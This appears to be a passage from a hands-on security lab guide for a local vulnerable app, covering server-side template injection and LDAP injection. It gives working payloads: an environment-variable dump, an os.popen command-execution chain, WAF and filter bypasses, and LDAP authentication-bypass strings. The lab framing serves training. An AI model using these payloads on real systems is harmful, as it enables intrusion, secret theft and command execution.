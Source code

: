 **Lab URL:** `http://localhost:5000/api/vuln/ssti`

**Objective:** Exploit SSTI vulnerabilities for remote code execution with bypass techniques.

#### Step 1: Template Engine Detection
1. **Test basic SSTI payloads:**
   ```
   {{7*7}}
   ${7*7}
   #{7*7}
   ```
2. **Screenshot Location:** Save response showing mathematical evaluation

#### Step 2: Code Execution
1. **Node.js SSTI payload:**
   ```
   {{constructor.constructor('return process.env')()}}
   ```
2. **Screenshot Location:** Save environment variable exposure

#### Step 3: WAF Bypass - Alternate Delimiters ⭐
**Bypass Technique:** Use alternate delimiter syntax to bypass WAF filters
1. **Payload with {% %} delimiters:**
   ```
   {%print(7*7)%}
   ```
2. **Flag:** `{SSTI_WAF_BYPASS_ALTERNATE_DELIMITERS}`
3. **Screenshot Location:** Save successful bypass response

#### Step 4: Filter Evasion - Attribute Chain Bypass ⭐
**Bypass Technique:** Use attribute chaining to access dangerous functions
1. **Payload with attribute access:**
   ```
   {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
   ```
2. **Flag:** `{SSTI_FILTER_BYPASS_ATTRIBUTE_CHAIN}`
3. **Screenshot Location:** Save RCE evidence

---

### LDAP Injection Lab

**Lab URL:** `http://localhost:5000/api/vuln/ldap-injection`

**Objective:** Exploit LDAP injection vulnerabilities with bypass techniques.

#### Step 1: Authentication Bypass
1. **LDAP injection payloads:**
   ```
   *)(uid=*))(|(uid=*
   admin)(&(password=*))
   ```
2. **Screenshot Location:** Save authentication bypass evidence

#### Step 2: Wildcard Filter Bypass ⭐
**Bypass Technique:** Use wildcard character to dump directory entries
1. **Payload:**
   ```
   username=*
   ```
2. **Burp Action:** Intercept search request, modify username to `*`
3. **Flag:** `{LDAP_INJECTION_WILDCARD_BYPASS}`
4. **Screenshot Location:** Save directory dump showing all users

---